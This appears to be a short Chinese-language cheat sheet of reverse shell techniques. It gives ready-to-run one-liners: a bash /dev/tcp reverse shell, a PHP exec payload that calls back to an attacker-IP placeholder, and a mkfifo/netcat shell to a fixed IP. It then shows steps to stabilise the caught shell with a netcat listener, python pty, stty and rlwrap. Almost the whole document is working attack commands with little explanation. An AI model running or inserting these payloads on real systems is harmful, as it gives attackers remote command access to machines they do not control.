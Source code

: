 ```yaml
---
tags:
  - 技巧
  - shell
---
```


## 反shell

**bash**

``````
#!/bin/bash
bash -i >& /dev/tcp/10.10.10.10/4444 0>&1
``````

**php**

``````
<?php
exec("/bin/bash -c 'bash -i >& /dev/tcp/<攻击者ip>/1234 0>&1'");
?>
``````



```bash
rm -f /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.14.21.44 1123 >/tmp/f
```



## 稳定shell

**python**
```bash
sudo nc -lvnp 443 获取到反向shell 
python3 -c 'import pty;pty.spawn("/bin/bash")' 使用 Python 生成功能更好的 bash shell 
export TERM=xterm
Ctrl + Z 将 shell 设置为背景 
stty raw -echo; fg 稳定化并重新进入shell
```

**rlwrap**
```bash
rlwrap nc -lvnp <port>
Ctrl + Z 将 shell 设置为背景 
stty raw -echo; fg 稳定化并重新进入shell
```

